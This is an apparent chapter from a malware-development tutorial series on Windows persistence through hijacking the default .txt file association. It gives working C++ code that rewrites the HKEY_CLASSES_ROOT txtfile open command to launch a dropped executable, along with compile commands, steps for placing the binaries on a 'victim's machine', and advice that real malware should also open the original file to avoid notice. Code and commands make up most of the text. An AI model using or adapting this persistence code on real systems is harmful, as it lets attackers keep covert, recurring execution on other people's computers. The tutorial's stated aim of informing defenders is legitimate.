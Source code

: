 \newpage
\subsection{75. malware development: persistence - part 9. Default file extension hijacking. Simple C++ example.}

﷽

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

This article is the result of my own research into one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

This persistence trick is used by [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework and [Kimsuky](https://attack.mitre.org/groups/G0094/) cyber espionage group. This malware was used in a 2019 campaign against Croatian government agencies by unidentified cyber actors.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[source code on Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
